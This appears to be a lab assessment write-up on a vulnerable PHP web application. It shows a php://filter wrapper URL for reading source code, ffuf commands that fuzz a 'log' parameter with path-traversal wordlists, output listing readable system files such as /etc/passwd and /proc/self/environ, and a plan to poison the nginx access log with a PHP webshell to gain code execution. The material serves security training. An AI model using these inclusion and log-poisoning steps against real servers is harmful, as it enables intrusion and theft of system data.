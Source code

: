 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (82) (1).png" alt=""><figcaption><p>page parameter</p></figcaption></figure>

* Can't include /etc/passwd
* Can't ffuf for valid files
* had to use PHP wrapper to view source code

```
view-source:http://46.101.95.166:30586/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

<figure><img src="../../.gitbook/assets/image (46) (1).png" alt=""><figcaption><p>ilf_admin/index.php</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (80) (1).png" alt=""><figcaption><p>log parameter seems to be including files</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption><p>included file</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption><p>No session values found so is not php session poisoning</p></figcaption></figure>

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://46.101.95.166:30586/ilf_admin/index.php?log=FUZZ' -c 
```

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt:FUZZ -u 'http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ' -c -fs 2046

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://46.101.95.166:30647/ilf_admin/index.php?log=../../../../../../../../../../FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2046
________________________________________________

    * FUZZ: /etc/passwd
    * FUZZ: /etc/inittab
    * FUZZ: /etc/hosts
    * FUZZ: /etc/fstab
    * FUZZ: /etc/issue
    * FUZZ: /etc/mtab]
    * FUZZ: /etc/motd
    * FUZZ: /etc/resolv.conf
    * FUZZ: /etc/profile
    * FUZZ: /proc/cpuinfo
    * FUZZ: /proc/ioports
    * FUZZ: /proc/filesystems
    * FUZZ: /proc/interrupts
    * FUZZ: /proc/meminfo
    * FUZZ: /proc/stat
    * FUZZ: /proc/mounts
    * FUZZ: /proc/swaps
    * FUZZ: /proc/self/net/arp
    * FUZZ: /proc/version
    * FUZZ: /proc/modules
    * FUZZ: /etc/ca-certificates.conf
    * FUZZ: /etc/group-
    * FUZZ: /etc/group
    * FUZZ: /etc/hostname
    * FUZZ: /etc/modules
    * FUZZ: /etc/passwd-
    * FUZZ: /etc/nginx/nginx.conf
    * FUZZ: /etc/os-release
    * FUZZ: /etc/sysctl.conf
    * FUZZ: /proc/devices
    * FUZZ: /proc/net/udp
    * FUZZ: /proc/self/cmdline
    * FUZZ: /proc/self/environ
    * FUZZ: /proc/self/mounts
    * FUZZ: /proc/self/stat
    * FUZZ: /proc/self/status
    * FUZZ: /proc/net/tcp
    * FUZZ: /var/log/nginx/access.log
    * FUZZ: /var/log/nginx/error.log
```

Above are list of files that were accessible

to perform server log poisoning we need access to access.log file&#x20;

<figure><img src="../../.gitbook/assets/image (88) (1).png" alt=""><figcaption><p>../../../../../var/log/nginx/access.log</p></figcaption></figure>

now we can try to edit the header to php webshell.

<figure><img src="../../.gitbook/assets/image (79) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

